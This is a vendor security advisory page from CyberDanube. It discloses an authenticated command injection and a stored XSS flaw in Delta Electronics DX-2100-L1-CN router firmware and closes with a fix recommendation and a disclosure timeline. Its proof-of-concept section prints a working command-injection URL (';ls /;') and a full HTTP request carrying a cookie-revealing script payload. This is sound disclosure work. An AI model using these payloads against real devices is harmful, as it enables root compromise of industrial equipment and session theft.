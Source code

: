 === Content from cyberdanube.com_3465c658_20250108_141304.html ===

[![](https://cyberdanube.com/wp-content/uploads/2024/10/CyberDanube_Logo_black_fontOnly.svg)![](https://cyberdanube.com/wp-content/uploads/2024/10/CyberDanube_Logo_white_fontOnly.svg)](https://cyberdanube.com)

* [Services](https://cyberdanube.com/services/)
* [Medusa](https://medusa.re/)
* [Security Research](https://cyberdanube.com/security-research/)
* [Contact](https://cyberdanube.com/contact/)

[back to the list](https://cyberdanube.com/security-research/)Date01/08/2022ImpactHighCVE IDsCVE-2022-42140 CVE-2022-42141
# Multiple Vulnerabilities in Delta Electronics DX-2100-L1-CN

Delta Electronics DX-2100-L1-CN is prone to authenticated command injection and a stored cross-site scripting (XSS) vulnerability. The XSS vulnerability can be used to execute arbitrary commands in the context of a userâs browser. The command injection allows an attacker to execute system commands on the device itself.

## Vendor description

âDelta, founded in 1971, is a global provider of power and thermal management solutions. Its mission statement, âTo provide innovative, clean and energy -efficient solutions for a better tomorrow,â focuses on addressing key environmental issues such as global climate change. As an energy-saving solutions provider with core competencies in power electronics and automation, Deltaâs business categories include Power Electronics, Automation, and Infrastructure.â

Source:Â <https://www.deltaww.com/en-US/about/aboutProfile>

### Vulnerable versions

DX-2100-L1-CN / V1.5.0.10

### Vulnerability overview

1) Authenticated Command Injection (CVE-2022-42140)

An authenticated command injection has been identified in the web configuration service of the device. It can be used to execute system commands on the OS from the device in the context of the user ârootâ. Therefore, a full compromization of the device is possible by having credentials for the web service only.

2) Stored Cross-Site Scripting (CVE-2022-42141)

A stored cross-site scripting vulnerability has been identified in the function ânet diagnosisâ on the deviceâs web configuration service. This can be exploited in the context of a victimâs session.

#### Proof of Concept

##### 1) Authenticated Command Injection

The parameter âdiagnose\_addressâ contains the payload â;ls /;â, which basically prints the content of the root directory to the serial terminal of the device.

```
http://192.168.3.150/lform/net_diagnose?action=diagnose&diagnose_type=0&diagnose_address=;ls%20/;
```

The output can be seen in the context of a virtualized firmware clone, as used to find this vulnerability, but is usually invisible to a customer. Therefore, a more visible payload may be commands that interact via the network, like â;ping 192.168.0.10;â. This command will ping a device on the corresponding IP address within the local network.

#### 2) Stored Cross-Site Scripting

The following code prints the current cached cookies of a userâs session to the screen. The JavaScript code will be stored on the device permanently.

```
POST /lform/urlfilter?action=save HTTP/1.1
Host: 192.168.3.150
Accept: */*
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 190
Connection: keep-alive
Cookie: language=en_US; userindex=1; loginexpire=1648630746607; session=30
lan_ipaddr=192.168.5.5&lan_netmask=255.255.255.0&src_addr_start=&src_addr_end=&editnum=0&bfilter_urllist=0&url_addr=<script>alert(document.cookie)</script>&src_addr_type=0&filter_state=1
```

The vulnerability was manually verified on an emulated device by using the MEDUSA scalable firmware runtime ([https://medusa.cyberdanube.com](https://medusa.cyberdanube.com/)).

#### Solution

Update to firmware version V1.5.0.12.

#### Workaround

None

#### Recommendation

CyberDanube recommends Delta Electronics customers to upgrade the firmware to the latest version available.

---

### References

#### Contact Timeline

* 2022-08-02: Contacting Delta Electronics.
* 2022-08-10: Vendor requested the advisory without encryption; Sent advisory to Delta Electronics.
* 2022-08-16: Security contact asked few questions regarding responsible disclosure; Sent answers.
* 2022-08-30: Asked for an update.
* 2022-09-01: Vendor responded, that they will need more time to resolve the issues; Provided additional 30 days (until 2022-11-02) for patching.
* 2022-10-11: Asked for an update.
* 2022-10-12: Vendor responded, that fixing will be done 2022-11-15; Shifted release date to this date.
* 2022-10-16: Vendor shifted release date again to 2022-11-18. Shifted advisory release date to the same day.
* 2022-10-17: Asked for an update regarding the release; No answer.
* 2022-10-18: Asked for an update and shifted release date to 2022-10-22.
* 2022-10-19: Vendor responded, that there were problems at releasing the patch. Contact stated, that the patch will delay until end of November.
* 2022-10-21: Asked vendor for a concrete release date; No answer.
* 2022-10-28: Announced advisory release date for 2022-10-30 to vendor.
* 2022-10-29: Found firmware patches with issue date 2022-11-25 on vendors website.
* 2022-10-30: Vendor confirmed fixes. Coordinated release of security advisory.

### Author(s)

![](https://cyberdanube.com/wp-content/uploads/2024/11/Avatar_TWE_lightblue_withoutbeard.webp)
#### Thomas Weber

Thomas Weber is co-founder and security researcher at CyberDanube in the field of embedded systems, (I)IoT and OT. He has uncovered numerous zero-day vulnerabilities and has published a large number of security advisories in the past. As part of his scientific work, he developed an emulation system for firmware â today the SaaS tool >Â [MEDUSA](https://cyberdanube.com/en/firmwaretwin/)Â < has emerged out of this. In the past he spoke at cyber security conferences such as HITB, BlackHat, IT-SECX, HEK.SI and OHM(international). Nowadays, he brings his competence and experience into security products.

## Experience Pentesting & Assessments by CyberDanube.

See how our in-depth testing uncovers hidden vulnerabilities and detect blind spots in your systems against potential cyber threats. Ready to secure your industrial services ? Get in touch with us!

[Get started](https://cyberdanube.com/contact/)[![](https://cyberdanube.com/wp-content/uploads/2024/10/CyberDanube_LogoOnly.png)](https://cyberdanube.com)ContactCD Security Technologies GmbHHohenauergasse 21A/1, â¨
A-1190 ViennaMo – Fr 08:00 – 18:00Navigation

* [Services](https://cyberdanube.com/services/)
* [Medusa](https://medusa.re/)
* [Security Research](https://cyberdanube.com/security-research/)
* [Contact](https://cyberdanube.com/contact/)
Legal

* [Imprint](https://cyberdanube.com/imprint/)
* [Privacy Policy](https://cyberdanube.com/privacy-policy/)
* [Responsible Disclosure Policy](https://cyberdanube.com/responsible-disclosure-policy/)
Get in touchoffice@cyberdanube.com

Â© 2021-2025 CD Security Technologies GmbH

 Menu


